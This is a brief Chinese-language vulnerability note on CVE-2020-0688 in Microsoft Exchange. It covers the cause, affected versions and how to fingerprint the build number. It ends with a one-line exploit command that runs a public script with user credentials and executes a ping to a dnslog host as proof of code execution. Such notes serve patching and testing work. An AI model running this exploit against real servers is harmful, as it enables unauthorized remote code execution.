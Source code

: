 ## 漏洞概述

由于Exchange服务器在安装时没有正确地创建唯一的加密密钥所造成的

## 影响范围

```http
#需要域用户登陆
2010、2013、2016、2019
```

**对于如何识别版本可以用如下的方式**：

在登录界面查看网页源代码，15.1.225就是版本，之后在[Mircosoft网站](https://docs.microsoft.com/zh-cn/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019)上根据版本号就可以直接查询

```html
找到<link rel="shortcut icon" href="/owa/auth/15.1.225/themes/resources/favicon.ico" type="image/x-icon">
```

## EXP

```bash
python CVE-2020-0688.py -s https://ip/owa/ -u user -p pass -c "ping test.ph4nxq.dnslog.cn"
```

[@Ridter](https://github.com/Ridter/cve-2020-0688)